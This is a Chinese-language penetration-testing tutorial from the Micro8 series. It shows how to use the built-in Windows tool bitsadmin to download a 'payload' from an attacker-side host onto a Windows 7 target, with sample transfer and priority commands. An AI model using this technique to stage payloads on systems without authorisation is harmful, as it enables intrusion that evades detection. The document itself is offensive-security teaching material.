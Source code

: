 ```yaml
---
title: 41、bitsadmin一句话下载payload
date: 2019-09-21 19:05:08
comments: true
categories: 
 - Micro8系列
---
```



**微软官方做出如下解释：**  
> BITSAdmin是一个命令行工具，可用于创建下载或上传并监视其进度。

**具体相关参数参见官方文档：**  
https://docs.microsoft.com/zh-cn/windows/desktop/Bits/bitsadmin-tool

自 windows7 以上版本内置 bitsadmin，它可以在网络不稳定的状态下下载文件，出错会自动重试，在比较复杂的网络环境下，有着不错的性能。

**靶机：windows 7**

```code
E:\>bitsadmin /rawreturn /transfer down "http://192.168.1.115/robots.txt" E:\PDF\robots.txt
```  
![](../do/media/68d44cdc3d8dfab1799b7becdd141031.jpg)

需要注意的是，bitsadmin要求服务器支持Range标头。

如果需要下载过大的文件，需要提高优先级。配合上面的下载命令。再次执行

```code
bitsadmin /setpriority down foreground
```

如果下载文件在1-5M之间，需要时时查看进度。同样它也支持进度条。

```code
bitsadmin /transfer down /download /priority normal "http://192.168.1.115/robots.txt" E:\PDF\robots.txt
```

![](../do/media/362901f0c27b936f6065b7b91b567395.jpg)


>   后者的话：不支持https协议。  
> 
>   Micropoor
